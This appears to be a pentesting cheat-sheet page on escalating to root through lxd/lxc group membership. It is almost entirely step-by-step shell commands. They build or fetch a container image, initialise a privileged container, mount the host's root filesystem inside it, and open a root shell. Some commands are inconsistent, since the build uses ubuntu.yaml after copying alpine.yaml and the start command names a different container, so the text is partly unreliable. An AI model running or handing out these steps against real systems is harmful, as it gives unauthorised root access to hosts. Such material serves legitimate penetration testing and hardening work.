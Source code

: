 # lxc - Privilege escalation

If you belong to _**lxd**_ **or** _**lxc**_ **group**, you can become root

## Exploiting without internet

You can install in your machine this distro builder: [https://github.com/lxc/distrobuilder ](https://github.com/lxc/distrobuilder)\(follow the instructions of the github\):

```text
#Install requirements
sudo apt update
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
#Clone repo
go get -d -v github.com/lxc/distrobuilder
#Make distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
cd
#Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
cp $HOME/go/src/github.com/lxc/distrobuilder/doc/examples/alpine alpine.yaml
#Create the container
sudo $HOME/go/bin/distrobuilder build-lxd ubuntu.yaml
```

Then, upload to the server the files **lxd.tar.xz** and **rootfs.squashfs**

Add the image:

```text
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list #You can see your new imported image
```

Create a container and add root path

```text
lxc init alpine privesc -c security.privileged=true
lxc list #List containers

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Execute the container:

```text
lxc start test
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted 
```

## With internet

You can follow [these instructions](https://reboare.github.io/lxd/lxd-escape.html).

```text
lxc init ubuntu:16.04 test -c security.privileged=true
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
lxc start test
lxc exec test bash
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted 
```

## Other Refs

{% embed url="https://reboare.github.io/lxd/lxd-escape.html" %}



